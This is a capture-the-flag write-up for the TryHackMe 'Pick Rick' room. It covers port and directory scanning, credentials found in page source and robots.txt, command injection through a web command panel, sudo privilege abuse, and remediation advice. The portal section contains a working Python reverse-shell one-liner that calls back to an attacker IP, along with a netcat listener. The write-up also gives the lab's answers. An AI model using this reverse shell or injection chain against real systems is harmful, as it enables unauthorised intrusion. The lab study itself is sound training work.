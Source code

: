 ## General Information
- Room: Pick Rick 
- Difficulty: Easy
- Date: 13/03/2023
- Description: "This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle."


## Methodology
- Reconnaissance: 
    - Execution of port scanning using Nmap.
    - Access to the website https://10-10-68-143.p.thmlabs.com/ for obtaining information.
- Exploration:
    - Directory enumeration using Gobuster.
    - Analysis of pages http://10.10.76.140/robots.txt, http://10.10.76.140/login.php, and http://10.10.76.140/portal.php.
- Results Analysis:
    - Documentation of findings, identification of vulnerabilities, and recommendations for remediation.


## Results
Based on the exploration of the Pick Rick Machine, the following results were obtained:
- First Ingredient: "mr. meeseek hair"
- Second Ingredient: "1 jerry tear"
- Third Ingredient: Obtained by running sudo cat /root/3rd.txt
- The third ingredient was obtained by leveraging the sudo privileges granted to the www-data user.

### Reconnaissance
- https://10-10-68-143.p.thmlabs.com/: Help Morty!

Listen Morty... I need your help, I've turned myself into a pickle again and this time I can't change back!

I need you to *BURRRP* ....Morty, logon to my computer and find the last three secret ingredients to finish my pickle-reverse potion. The only problem is, I have no idea what the *BURRRRRRRRP* , password was! Help Morty, Help! 

- IP: 10.10.76.140
- Port Scan results:

| Port     | State | Service | Version         |
|----------|-------|---------|-----------------|   
| 22/tcp   | open  | ssh     | OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0) |
| 80/tcp   | open  | http    | Apache httpd 2.4.18 ((Ubuntu)) |

### Exploitation

#### Nmap
~~~nmap
nmap -sVC -v -T4 -oA ./service_scan 10.10.76.140
~~~

#### gobuster
~~~ gobuster
gobuster dir -u http://10.10.76.140/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -x php,html,txt 2>/dev/null | tee scan_gobuster_dir 
~~~

#### Inspect page http://10.10.76.140/
~~~Inspect  
http://10.10.76.140/: 
    Note to self, remember username!

    Username: R1ckRul3s

http://10.10.76.140/robots.txt: 
    Wubbalubbadubdub

http://10.10.76.140/login.php:
    Username: R1ckRul3s
    Password: Wubbalubbadubdub

http://10.10.76.140/portal.php
    Command Panel
    - 'ls': 
        Sup3rS3cretPickl3Ingred.txt
        assets
        clue.txt
        denied.php
        index.html
        login.php
        portal.php
        robots.txt
    - 'less Sup3rS3cretPickl3Ingred.txt':
        mr. meeseek hair
    - python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.78.245 ",3333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
~~~

#### netcat listener
~~~netcat listener 
└─$ nc -lvnp 3333
~~~


## Exploited Vulnerabilities
- The password "Wubbalubbadubdub" was discovered through reconnaissance and provided access to the login page.
- By accessing the command panel on the portal page, arbitrary commands could be executed, allowing for further exploration and retrieval of the ingredients.
- The www-data user had unrestricted sudo privileges, allowing for the execution of privileged commands and access to the root directory.


## Recommendations
- Ensure that all user accounts, including the system administrator, use strong and unique passwords to prevent unauthorized access.
- Implement proper input validation and sanitization mechanisms to prevent command injection vulnerabilities.
- Review and restrict the sudo privileges granted to users, limiting their scope to only necessary commands and files.